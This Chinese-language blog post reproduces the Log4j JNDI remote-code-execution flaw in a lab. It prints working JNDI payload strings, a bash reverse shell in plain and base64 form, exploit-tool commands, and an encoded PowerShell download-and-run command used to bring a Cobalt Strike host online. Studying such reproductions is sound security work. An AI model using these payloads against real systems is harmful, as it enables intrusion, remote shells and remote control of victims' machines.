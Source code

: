 ```yaml
---
title: Apache Log4J漏洞复现
date: 2021-12-11 15:56:08
categories: 漏洞复现
tags: RCE
---
```


#### 简介

Log4j 是一款开源 的Java 日志记录工具，漏洞是由Log4j 的lookup功能造成的，该功能允许开发人员通过一些协议读取加载远程环境中的配置，并未对输入进行效验，导致攻击者可以通过加载自己构造的恶意类达到代码执行的目的。但此漏洞在实际环境中要成功利用貌似还跟java版本等因素有关。

<!--more-->

**受影响产品包括但不限于**

* Spring-Boot-strater-log4j2
* Apache Struts2
* Apache Solr
* Apache Flink
* Apache Druid
* ElasticSearch
* flume
* dubbo
* Redis
* logstash
* kafka

#### 漏洞复现

##### 1. 漏洞检测

本次漏洞复现采用Vulfocus靶场，docker部署

` docker pull vulfocus/log4j2-rce-2021-12-09:latest`

`docker run -d -P vulfocus/log4j2-rce-2021-12-09:latest`

nc监听或者dnslog

`nc -lvp 4444`

发送payload：`${jndi:ldap://192.168.1.16:4444}`

<img src="http://qn.laohuan.xin/Snipaste_2021-12-11_11-25-11.png" style="zoom: 67%;" />

nc收到请求，证明存在漏洞

![](http://qn.laohuan.xin/Snipaste_2021-12-11_11-25-22.png)

##### 2.漏洞利用

###### Linux反弹shell

1.利用工具:[JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar](http://github.com/bkfish/Apache-Log4j-Learning/blob/main/tools/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar)

2.反弹shell

`bash -i >& /dev/tcp/192.168.1.16/4444 0>&1`

base64编码:[http://www.jackson-t.ca/runtime-exec-payloads.html/](http://www.jackson-t.ca/runtime-exec-payloads.html/)

![](http://qn.laohuan.xin/Snipaste_2021-12-11_11-28-52.png)

得到编码后的反弹脚本

`bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTYvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}`

3.nc监听

`nc -lvp 4444`

4.使用JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar开启监听

`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTYvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i} " -A 192.168.1.16`

5.发送paylaod，由于此靶场是Spring-Boot-strater-log4j2搭建环境，所以采用此payload,不同java版本选择相应相应的监听规则。

`${jndi://rmi://192.168.1.16:1099/whcpug}`，

6.成功收到shell

<img src="http://qn.laohuan.xin/Snipaste_2021-12-11_11-29-57.png"  />

###### Windows cs 上线

windows使用[漏洞环境](http://mp.weixin.qq.com/s/jCHJCiZXbBnXfoMcyMDgPQ)分享的靶场，已将漏洞环境编译为jar包。

1.首先测试是否能正常执行命令，弹出计算器作为示例

`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc.exe" -A 192.168.1.16`

![](http://qn.laohuan.xin/Snipaste_2021-12-11_12-21-19.png)

2.使用靶场环境发送paylaod,成功弹出计算器

`java -jar LogTest.jar ${jndi:ldap://192.168.1.16:1389/arvhzz}`

![](http://qn.laohuan.xin/Snipaste_2021-12-11_12-21-38.png)

3.cs生成powershell上线代码，并bash64编码

![](http://qn.laohuan.xin/Snipaste_2021-12-11_14-30-05.png)

4.使用工具开启监听

```powershell
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc cABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACAALQBuAG8AcAAgAC0AdwAgAGgAaQBkAGQAZQBuACAALQBjACAAIgBJAEUAWAAgACgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAHMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAxAC4AMQA2ADoAOAAwAC8AYQAnACkAKQAiAA==" -A 192.168.1.16
```

5.发送paylaod

`java -jar LogTest.jar  ${jndi:ldap://192.168.1.16:1389/kmelx9}`

![](http://qn.laohuan.xin/Snipaste_2021-12-11_14-29-43.png)

6.cs成功上线

![](http://qn.laohuan.xin/Snipaste_2021-12-11_14-29-14.png)

#### 相关漏洞检测工具

* [http://github.com/inbug-team/Log4j_RCE_Tool/releases/tag/Apache_Log4j_RCE0.2](http://github.com/inbug-team/Log4j_RCE_Tool/releases/tag/Apache_Log4j_RCE0.2)
* http://github.com/tangxiaofeng7/BurpLog4j2Scan
* [Log4j2 Vuln Detector (chaitin.cn)](http://log4j2-detector.chaitin.cn/)

#### 参考链接

1. [http://github.com/fengxuangit/log4j_vuln](http://github.com/fengxuangit/log4j_vuln)
2. [http://github.com/bkfish/Apache-Log4j-Learning](http://github.com/bkfish/Apache-Log4j-Learning)
3. [log4j漏洞复现环境分享 (qq.com)](http://mp.weixin.qq.com/s/jCHJCiZXbBnXfoMcyMDgPQ)
4. [Log4J 漏洞复现+漏洞靶场 (qq.com)](http://mp.weixin.qq.com/s/4cvooT4tfQhjL7t4GFzYFQ)

